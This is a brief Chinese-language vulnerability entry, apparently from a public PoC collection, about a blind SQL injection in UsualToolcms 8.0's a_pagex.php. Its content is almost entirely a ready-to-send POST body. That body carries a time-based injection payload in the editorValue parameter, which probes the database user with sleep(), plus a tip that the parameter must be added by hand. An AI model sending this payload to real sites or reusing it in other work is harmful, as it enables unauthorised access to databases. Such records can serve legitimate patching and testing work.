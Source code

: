 UsualToolcms 8.0 a\_pagex.php盲注
=================================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolcms 8.0

三、复现过程
------------

### poc

![1.png](./.resource/UsualToolcms8.0a_pagex.php盲注/media/rId25.png)

    pagename=test&istop=0&isbottom=0&title=test&webkey=test&description=test&editorValue=1'and if(ascii(substr(user(),1,1))=100,sleep(2),1)#&id=2&submit=%E7%BC%96%E8%BE%91

editorValue参数需要手动添加

![2.png](./.resource/UsualToolcms8.0a_pagex.php盲注/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/8100

